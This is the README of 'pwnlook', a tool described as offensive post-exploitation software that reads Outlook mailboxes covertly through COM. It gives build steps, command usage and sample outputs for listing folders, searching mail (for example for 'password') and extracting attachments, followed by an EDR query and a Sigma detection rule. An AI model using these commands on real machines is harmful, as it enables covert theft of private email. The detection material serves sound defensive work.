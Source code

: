 # pwnlook
Pwnlook is an offensive postexploitation tool that will give you complete control over the Outlook desktop application and therefore to the emails configured in it.
What it offers:
- List mailboxes
- List folders
- Gather emails information
- Read email
- Search by recipient or subject
- Download attachments

It's possible to do almost everything that Outlook can do: send emails, create forward rules, list contacts... But all this is out of the scope of this project.

### Compile
To compile it you need first to register both DLLs:
```
regsvr32.exe .\Redemption.dll
regsvr32.exe .\Redemption64.dll
```

You can unregister them later:
```
regsvr32.exe -u .\Redemption.dll
regsvr32.exe -u .\Redemption_64.dll
```

Then use [ILMerge](https://github.com/dotnet/ILMerge) to create a single binary:
```
.\ILMerge.exe /target:pwnlook35.exe /out:pwnlook.exe pwnlook35.exe Newtonsoft.Json.dll
```

### How it works
`pwnlook` communicates with Outlook via COM. By using the [Redemption library](https://www.dimastr.com/redemption/home.htm) it can gather all kind of information without triggering any alert to the user, even if you read an unread email the email will keep as unread for the user.

The tool comes with some limitations that are related with the, most likely, possibility of dealing with very big OST files. Thats why, for example, I didn't implement an option to "list all emails".

The `Redemption64.dll` must be in the same path as the `pwnlook.exe`. There is no need to register the DLL ([Registry free COM](https://www.dimastr.com/redemption/security.htm#redemptionloader)) so you can run it on behalf of any user, even if it is no Local Admin.

```powershell
.\pwnlook.exe --help


                    .__                 __
________  _  ______ |  |   ____   ____ |  | __
\____ \ \/ \/ /    \|  |  /  _ \ /  _ \|  |/ /
|  |_> >     /   |  \  |_(  <_> |  <_> )    <
|   __/ \/\_/|___|  /____/\____/ \____/|__|_ \
|__|              \/                        \/


Usage: pwnlook.exe [options]

List mailboxes:
  -listmailboxes

List folders:
  -mailbox <mailbox> -listfolders

List emails from date:
  -mailbox <mailbox> -folder <Folder\Path> -date <yyyy-MM-dd>

List latest X emails from folder:
  -mailbox <mailbox> -folder <Folder\Path> -latest <X>

Read email:
  -mailbox <mailbox> -folder <Folder\Path> -id <ID>

Download attachment (base64):
  -mailbox <mailbox> -folder <Folder\Path> -id <ID> -attachment <X>

Search by sender or subject:
  -mailbox <mailbox> -folder <Folder\Path> -search <sender|subject> -value <string>

Result format in JSON
  -json

Examples:
.\pwnlook.exe -mailbox my@mail.com -folder "Inbox" -latest 20 -json        Lists latest 20 emails from Inbox
```

#### List Mailboxes
First you must list the existing mailboxes `.\pwnlook.exe -listmailboxes`:
```
Available Mailboxes:
    - test_1@domaintest.tld
    - test_2@domaintest.tld
```

#### List existing folders
`.\pwnlook.exe -mailbox "test_1@domaintest.tld" -listfolders`

```
IPM_SUBTREE
    Trash
    Inbox
        test1
    Outbox
    Sent
    Calendar (This computer only)
    Contacts (This computer only)
    Journal (This computer only)
    Notes (This computer only)
    Tasks (This computer only)
    Drafts
    RSS Feeds
    Conversation Action Settings (This computer only)
    Quick Step Settings (This computer only)
    Sync Issues (This computer only)
        Local Failures (This computer only)
    Junk
    Archive
    test2
```

#### Examples
**List latest 3 emails from test1 folder**
```
.\pwnlook.exe -mailbox "test_1@domaintest.tld" -folder "Inbox\test1" -latest 3 -json
```

Output example in JSON:
```
  {
    "Sender": "aaaa@eeee.org",
    "Recipients": "test_1@domaintest.tld",
    "Subject": "Email1",
    "Body": null,
    "Attachments": [],
    "Date": "2024-08-21",
    "Folder": "test1",
    "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD500000000000F0000D9539C2261A6BB45B9DAB62C7081B3C101000D0000000000"
  }
```

**List emails from date**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -date "2024-08-12" -json
```
**Search email**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "sender" -value "boss" -json
```

```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "subjet" -value "password" -json
```

**Read email**

Use the `ID` to read the email:
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -json
```

```
{
  "Sender": "aaaa@eeee.org",
  "Recipients": "test_1@domaintest.tld",
  "Subject": "Re: testeando",
  "Body": "Ok a todo\r\n\r\n\r\nEl 12 de agosto de 2024 11:30:25 CEST, test_1@domaintest.tld escribió:\r\n\r\n\temail de prueba\r\n\r\n",
  "Attachments": [
    "Senior Security Analyst - Job Description.pdf"
  ],
  "Date": "2024-08-12",
  "Folder": "test2",
  "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000"
}
```

**Download attachment**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -attachment 0 > base64.txt
```

The attachment is encoded in `base64`, you can dump it as a file with Powershell like:
```
[System.IO.File]::WriteAllBytes("outputFile.pdf", [System.Convert]::FromBase64String([System.IO.File]::ReadAllText("base64.txt")))
```

### Detect

In your EDR you can search for processes accessing `OST` files.

In Cortex XDR would be like:

```
config case_sensitive = false
| preset = xdr_file 
| filter event_sub_type = ENUM.FILE_OPEN 
| filter action_file_path ~= "C:\\Users\\.*\\AppData\\Local\\Microsoft\\Outlook\\.*\.ost$" and actor_process_signature_status = UNSIGNED
| fields _time, agent_hostname , actor_effective_username , action_file_path, actor_process_image_name , actor_process_command_line, actor_process_image_sha256  , actor_process_signature_status , actor_process_signature_vendor 
```

Sigma rule:
```yml
title: Access to OST files by uncommon process
id: 0ea56b07-0bc6-4c8b-8b8a-e32de0557a5e
status: experimental
description: |
    Detects malicious software reading emails directly from OST files.
references:
    - https://github.com/amjcyb/pwnlook
author: amjcyb
date: 2024-09-10
tags:
    - attack.collection
    - attack.t1114.001
logsource:
    category: file_access
    product: windows
    definition: 'Requirements: Microsoft-Windows-Kernel-File ETW provider'
detection:
    selection:
        FileName|endswith: '.ost'
        FileName|contains:
            - 'AppData\Local\Microsoft\Outlook'
    filter_system_folders:
        Image|startswith:
            - 'C:\Program Files\'
            - 'C:\Program Files (x86)\'
            - 'C:\Windows\system32\'
            - 'C:\Windows\SysWOW64\'
    condition: selection and not 1 of filter_*
falsepositives:
    - Other email software
level: high
```

